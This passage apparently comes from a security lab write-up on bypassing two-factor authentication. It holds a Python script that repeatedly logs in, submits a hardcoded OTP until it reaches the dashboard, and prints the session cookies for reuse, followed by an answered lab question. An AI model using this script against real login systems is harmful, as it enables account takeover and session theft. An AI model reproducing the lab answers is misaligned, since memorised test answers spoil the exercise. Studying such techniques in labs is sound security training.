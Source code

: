 ```python
    otp_str = '1337'  # Hardcoded OTP

    while True:  # Keep trying until success
        session = requests.Session()  # Create a new session object for each attempt
        login_response = login(session)  # Log in before each OTP attempt
        
        if is_login_successful(login_response):
            print("Logged in successfully.")
        else:
            print("Failed to log in.")
            continue

        print(f"Trying OTP: {otp_str}")

        response = submit_otp(session, otp_str)

        # Check if the response is the login page (unsuccessful OTP)
        if is_login_page(response):
            print(f"Unsuccessful OTP attempt, redirected to login page. OTP: {otp_str}")
            continue  # Retry login and OTP submission

        # Check if the response is a redirect (status code 302)
        if response.status_code == 302:
            location_header = response.headers.get('Location', '')
            print(f"Session cookies: {session.cookies.get_dict()}")

            # Check if it successfully bypassed 2FA and landed on the dashboard
            if location_header == '/labs/third/dashboard':
                print(f"Successfully bypassed 2FA with OTP: {otp_str}")
                return session.cookies.get_dict()  # Return session cookies after successful bypass
            elif location_header == '/labs/third/':
                print(f"Failed OTP attempt. Redirected to login. OTP: {otp_str}")
            else:
                print(f"Unexpected redirect location: {location_header}. OTP: {otp_str}")
        else:
            print(f"Received status code {response.status_code}. Retrying...")

# Start the attack to try until success
try_until_success()
```

- The script helps us log in once it finds the correct 2FA codes, which in return prints out the session cookie. We can use this cookie to log in.

---------------
# ANSWER THE QUESTIONS
**When logging in to the application, you receive an SMS on your phone containing the OTP. What authentication factor is this?**

`-> something you have`
